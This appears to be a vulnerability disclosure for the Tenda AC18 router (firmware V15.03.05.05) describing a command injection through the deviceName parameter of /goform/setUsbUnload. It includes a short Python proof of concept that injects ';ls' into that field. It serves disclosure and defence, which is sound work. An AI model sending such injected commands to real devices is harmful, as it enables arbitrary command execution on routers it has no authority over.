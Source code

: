 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

In Tenda AC18 V15.03.05.05 firmware, we discovered a command injection vulnerablility in the `deviceName` parameter and the `v3` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `deviceName` can trigger this security vulnerability.

![image-20240305231546129](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231546129.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/setUsbUnload"
payload = ";ls"

data = {"deviceName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305231656768](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305231656768.png)
